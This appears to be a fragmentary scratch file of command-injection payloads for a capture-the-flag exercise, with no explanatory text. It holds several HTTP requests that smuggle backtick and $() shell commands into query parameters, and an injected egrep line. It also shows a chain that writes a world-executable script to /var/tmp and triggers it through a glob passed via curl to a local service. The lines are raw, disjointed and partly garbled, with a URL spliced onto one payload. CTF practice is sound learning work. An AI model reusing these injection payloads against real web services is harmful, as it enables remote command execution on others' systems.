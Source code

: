 GET /?x=$\($_[1]\)&y=echo+\(getflag\)

egrep "^`echo $(getflag) > /var/tmp/flag`" /tmp/xd 2>&1
GET /?x=$\($_[1]\)&y=`echo+$\(getflag\)+>+/var/tmp/flag`

GET /?x=\$nn&y=\`echo+hello>/var/tmp/flag\`https://users.cs.cf.ac.uk/dave/PERL/node87.html


echo "getflag >> /var/tmp/flag" >> /var/tmp/SCR && chmod 777 /var/tmp/SCR
export A='`/*/*/SCR`'
curl localhost:4646/?x=$A && cat /var/tmp/flag
